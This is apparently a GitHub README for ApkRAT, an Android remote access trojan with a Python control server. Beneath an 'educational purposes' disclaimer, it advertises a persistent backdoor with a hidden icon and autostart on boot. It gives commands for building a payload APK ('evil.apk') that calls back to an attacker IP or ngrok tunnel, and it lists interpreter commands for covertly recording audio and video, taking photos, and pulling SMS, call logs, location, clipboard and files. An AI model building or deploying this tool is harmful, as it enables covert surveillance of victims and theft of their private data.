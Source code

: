 **Disclaimer** : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.
# ApkRAT 

[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT) 
[![Twitter Follow](https://twitter.com/Enpazturk)
[![GitHub followers](https://github.com/MrDeepWolf/)

ApkRAT is a tool designed to give the control of the android system remotely and retrieve informations from it. apkrat is a client/server application developed in Java Android for the client side and the Server is in Python.

##### ApkRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> apkRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 

## Screenshots

![ApkRAT]("ApkRAT in action")
## Features of ApkRAT 
* Full persistent backdoor
* Invisible icon on install
* Light weight apk which runs 24*7 in background
* App starts automatically on boot up 
* Can record audio, video, take picture from both camera
* Browse call logs and SMS logs
* Get current location, sim card details ,ip, mac address of the device


## Prerequisites
ApkRAT requires Python3 and JAVA (or Android Studio)

## Installation
```
git clone https://github.com/MrDeepWolf/apkrat.git
cd ApkRAT
pip install -r requirements.txt
```
#### Note: 
While cloning the repository using Git bash on Windows, you may get the following error:
> error: unable to create file \<filename>: Filename too long

This is because the Git has a limit of 4096 characters for a filename, except on Windows when Git is compiled with msys. It uses an older version of the Windows API and there's a limit of 260 characters for a filename. 

You can circumvent this by setting `core.longpaths` to `true`.

> git config --system core.longpaths true

You must run Git bash with administrator privileges. 

## Usage (Windows and Linux)

* To get the control panel of the app dial `*#*#1337#*#*` (For now it has only two options `Restart Activity` and `Uninstall`)
> Note: In order to use this feature in some devices you need to enable the option `display pop-up windows running in background` from the settings.

### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python3 apkrat.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "deepwolf.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python3 apkrat.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 apkrat.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 apkrat.py --build --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python3 apkrat.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python3 apkrat.py --shell -i 0.0.0.0 -p 8000```

## Interpreter Examples
* Generating APK
------------------------------------------------------------------------------------------------------------------------------  

* Some interpreter Commands 
------------------------------------------------------------------------------------------------------------------------------


## License
Apkrat is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information.


